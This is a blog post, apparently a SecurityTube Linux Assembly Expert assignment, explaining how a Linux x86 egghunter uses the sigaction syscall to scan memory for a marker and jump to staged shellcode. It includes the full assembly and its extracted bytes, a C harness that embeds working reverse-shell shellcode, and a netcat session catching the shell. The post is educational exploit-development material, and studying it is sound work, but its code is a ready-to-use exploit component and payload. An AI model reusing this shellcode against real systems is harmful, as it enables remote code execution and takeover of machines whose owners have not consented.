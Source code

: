 ```yaml
---
layout: post
title: Linux x86 Egghunter
tags: [slae]
---
```


This is the third assignment for the SLAE which is creating an Egghunter. So what is an Egghunter and why is it useful? Perhaps you have a buffer overflow but space is limited on the buffer and you're unable to fit all of your shellcode in one spot. What do you do? Well an egghunter could be the solution to your problem. 

An egg is simply a marker than can be set in front of your shellcode and then looked for in memory by an egghunter. Generally your egg should be unique and repeated twice. The reason for the repetition is to avoid the egghunter from recognizing itself during the search and jumping to the wrong spot. Once the egg is found by the egghunter, it simply jumps to your shellcode for execution. 

So how is this accomplished? Well the famous paper by Skape goes into detail on a few different techniques that can be used. Please check out that resource [here](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf). 

For the purposes of this writeup we'll be utilizing the sigaction(2) method since it is the most efficient. We'll be using the sigaction() syscall to verify valid memory addresses to search for our egg in.

First let's take a look at the sigaction() syscall in the man pages.


```
NAME
       sigaction - examine and change a signal action

SYNOPSIS
       #include <signal.h>

       int sigaction(int signum, const struct sigaction *act,
                     struct sigaction *oldact);
```

We can see that sigaction takes three arguments, `signum` will be in EBX, the `act` pointer in ECX and `oldact` point in EDX. 

If we look further down in the man page we see the following:

```
ERRORS
       EFAULT act  or oldact points to memory which is not a valid part of the
              process address space.
```

What this means is that we can use the `act` pointer as a way to check for valid addresses in memory. If we check for an address that is not valid we'll get an `EFAULT` error returned. 

So for the purposes of our needs, we'll be putting in various memory addresses in ECX to have sigaction() check if its valid or not. If the memory is valid (`EFAULT` is not returned in EAX) then we'll search it for our egg. 

To get started we'll need to find the syscall number for sigaction() which is defined as 67 in `/usr/include/i386-linux-gnu/asm/unistd_32.h` on our Ubuntu box.

We'll also need to know the return value for an `EFAULT` which can be found in `/usr/include/asm-generic/errno-base.h` as 14.

Now that we have a way to search for valid memory we'll need a method to search for our egg efficiently. To accomplish this we'll utilize the SCASD assembly instruction which will compare EAX to a DWORD value located in EDI and set status flags for the result. If the comparison is a success the ZF (zero flag) will be set in EFLAGS.

After the comparison is ran, EDI will be automatically incremented by 4. This incrementation allows us to call SCASD again to do the second check to verify our egg has been found (remember we repeat the egg twice). If both of the SCASD checks pass then we'll know we've found our shellcode and we can JMP directly to EDI, which will have automatically be incremented to the start of our shellcode thanks to SCASD.

A summary on what needs to happen.

- We first need to set the ECX register to the bottom of the memory address space for sigaction to check. Page sizes in Linux x86 are 4096 which in hex is 0x1000, this contains nulls so to avoid this we'll need to first put 4095 into ECX then increment by 1 to get what we want.

- We then need to execute sigaction and check for the EFAULT return value.

- If EFAULT is returned we need to increment the memory page address and rerun sigaction.

- If EFAULT is not returned we know we have a valid address, so we load our egg in EAX, move the current valid address we want to check (currently stored in ECX) to EDI and run SCASD to check if we have a match.

- If there is no match, we need to increment our memory address and redo the process.

- If there is a match, we'll need to check for our egg again with SCASD.

- If there is no match, increment the memory address and redo the process again. If it is a match, we've found our egg and can jump to EDI for execution.


## Final Assembly Code

```nasm
global _start

section .text
_start:

next_page:

	or cx,0xfff            ; set cx to 4095

next_address:

	inc ecx			; increment to 4096	
	push byte +0x43         ; sigaction()
	pop eax                 ; put syscall in eax
	int 0x80                ; execute sigaction()
	cmp al,0xf2             ; check for EFAULT
	jz next_page            ; if EFAULT jump to next page in memory
	mov eax, 0x50905090     ; move EGG in EAX
	mov edi, ecx            ; move address to be checked by scasd
	scasd                   ; is eax == edi? if so edi is incremented by 4 bytes
	jnz next_address        ; if not try with the next address
	scasd                   ; check for second half of EGG
	jnz next_address        ; if not try with next address
	jmp edi                 ; if EGG is found again, jmp to shellcode

```

## Testing the Code

First we'll need to compile and extract our egghunter shellcode.

```
absolomb@ubuntu:~/SLAE/assignments/3$ ./compile.sh egghunter
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
absolomb@ubuntu:~/SLAE/assignments/3$ for i in $(objdump -d egghunter |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7
```

Once that is done a simple C program can be used along with our shellcode for the TCP reverse shell from the previous post.

```c
#include<stdio.h>
#include<string.h>


#define EGG "\x90\x50\x90\x50"

unsigned char egghunter[] = \
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8"
EGG
"\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

// Reverse Shell on 127.1.1.1 port 1234
unsigned char code[] = \
EGG EGG
"\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x87\xdf\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
	
	printf("Egghunter Length:  %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```

Notice in the code we aren't calling our reverse shell shellcode directly, only the egghunter. We can use any payload we like, we just have to make the modifications to the `code` variable.  

Let's compile and test.

```
absolomb@ubuntu:~/SLAE/assignments/3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack
absolomb@ubuntu:~/SLAE/assignments/3$ ./egghunter
Egghunter Length:  30
Shellcode Length:  84
```

In another terminal we catch our shell

```
absolomb@ubuntu:~$ nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 48094)
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Success!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>